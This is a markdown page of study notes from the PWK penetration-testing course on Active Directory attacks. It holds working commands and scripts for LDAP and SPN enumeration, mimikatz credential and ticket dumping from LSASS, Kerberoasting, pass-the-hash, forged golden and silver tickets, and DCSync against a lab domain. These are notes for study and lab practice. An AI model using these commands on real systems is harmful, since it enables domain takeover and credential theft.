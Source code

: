 # PWK PDF Highlights

## Enumeration

### Traditional Approach

```powershell
net user  # Enumerates all local accounts
net user /domain  # Enumerate all users in the domain
net user jeff_admin /domain  # Query specific user details (check groups)
net group /domain  # Enumerate all groups in the domain (identify nested groups)
```

### Modern Approach

Discover the hostname of the domain controller and the components of the DistinguishedName

```powershell
# Using PowerShell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

#### Script

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="samAccountType=805306368"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
Write-Host "------------------------"
}
```

### Resolving Nested Groups

#### List all groups in the domain

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(objectClass=Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.name
}
```

#### List members of a group

Specify a group to list members of after identifying a list of groups.

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(name=Secret_Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.member
}
```

This is where we could find another group which would be a nested group within Secret\_Group.

To list the members of the nested group we would perform the same script updating the `name.$Searcher.filter="(name=Nested_Group)"`

### Currently Logged in Users

```powershell
Import-Module .\PowerView.ps1
Get-NetLoggedon -ComputerName client251
Get-NetSession -ComputerName dc01
```

### Enumeration through SPNs

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
}
```

In the output we get a 'serviceprincipalname'. May suggest a webserver if HTTP is shown.

Attempt to resolve the webserver domain using nslookup

```powershell
nslookup CorpWebServer.corp.com
```

Returns an internal IP address which also happens to be the Domain Controller. We can navigate to the IP so find more information.sh

## Authentication

### NTLM Authentication

### Kerberos Authentication

### Cached Credential Storage and Retrieval

Stored in the Local Security Authority Subsystem Service (LSASS)

```powershell
# May need elevated privilges
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords  # dumps hashes for all logged on users current machine
# Grab hashes
```

```powershell
mimikatz.exe
privilege::debug
sekurlsa::tickets  # Check for kerberos tickets stored in memory
# Lookg for Ticket Granting Service and Ticket Granting Ticket
```

### Service Account Attacks

```powershell
# Using PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'H
```

See other documented notes for remaining details.

### Low and Slow Password Guessing

```powershell
net accounts  # Check lockout threshhold and lockout observation window
```

See other documented notes for remaining details.

## Lateral Movement Techniques

### Pass the Hash

```bash
# From Kali
pth-winexe -U <user>%<NTLM Hash> <IP> <command>
pth-winexe -U offsec%<NTLM Hash> //10.11.0.22 cmd
```

### Overpass the Hash

See other documented notes for remaining details.

### Pass the Ticket

```powershell
whoami /user  # Grab the SID
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
mimikatz # kerberos::list
```

### Distributed Component Object Model

See other documented notes for remaining details.

## Persistence

### Golden Tickets

```powershell
# From a compromised machine
psexec.exe \\dc01 cmd.exe  # Failed attempt to laterally move (access denied)
# From the Domain Controller
mimikatz.exe
privilege::debug
lsadump::lsa /patch
# Identify krbtgt user and grab the NTLM Hash
# Back on compromised machine
mimikatz.exe
privilege::debug
kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
misc::cmd
psexec.exe \\dc01 cmd.exe
```

### Domain Controller Synchronization

```powershell
mimikatz.exe
lsadump::dcsync /user:Administrator
```
